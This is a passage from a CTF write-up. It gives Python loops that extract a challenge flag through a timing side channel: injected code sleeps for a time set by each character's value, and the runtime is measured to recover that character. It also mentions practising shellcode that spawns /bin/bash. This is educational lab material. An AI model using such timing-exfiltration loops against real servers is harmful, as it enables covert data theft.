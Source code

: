 ``` {.python language="Python"}
flag=""
for i in range(0, 15):
    j = 0
    while 1:
        code = sleep_ascii_offset(i, 128 - j)
        print(f"script : {code.decode()}")
        print(f"cur flag: {flag}")

        runtime = send_code(code)
        time.sleep(0.3)
        if runtime >= 1.0:
            flag += chr(int(128 - j))
            break
        j = j + 1
```

18 hours into the CTF event, I didn't have the will to debug it and went
with a simpler solution. I removed this transfer optimization and went
with a constant offset of 33. This would skip the unprintable ascii
range and save 33 seconds for each char. To extract the flag I wrote
this loop:

``` {.python language="Python"}
flag = ""
for i in range(1, flag_len + 1):
    code = sleep_ascii_offset(i, 33)
    print(f"script : {code.decode()}")
    runtime = send_code(code)
    flag += chr(int(runtime + 33))
    print(f"cur flag: {flag}")

print(f"finished flag: {flag}")
```

I decided that the server is probably fine if I sleep it for an extended
amount of time and in the worst case will timeout the script executing
my code. This never happened and after about 15 Minutes I managed to
leak the full flag. Also the data noise concern I had before (coming
from server lags) never actually showed.

# Perspective

My experience in terms of software/systems knowledge lies in the low
level stuff. Preparing for this CTF I mostly prepared for binary
exploitation. In the days before the event I focused on shellcode(binary
op-codes that lead to execve(\"/bin/bash\", 0, 0)) injection. This gave
me practice in wiggling my way through conditions with minimal use of
tools.

# Challenges Server Source Code {#sec:chall_sourcecode}

